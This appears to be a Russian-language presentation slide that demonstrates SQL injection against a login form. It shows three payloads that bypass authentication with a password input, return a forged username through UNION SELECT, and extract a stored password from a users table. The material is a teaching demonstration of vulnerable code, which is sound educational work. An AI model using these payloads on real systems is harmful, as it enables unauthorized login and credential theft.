

# Начнём ломать
Работает, но!!!
Всё это ужасно неправильно
Войдём под левым паролем
123456') or 1=1 --
Вернём неправильное имя пользователя
123456') or 1=1 union select 'xexe' order by 1 desc - -
Утащим пароль из базы!
123456') or 1=1 union select (select min(pass) from users) order by 1 asc limit 1--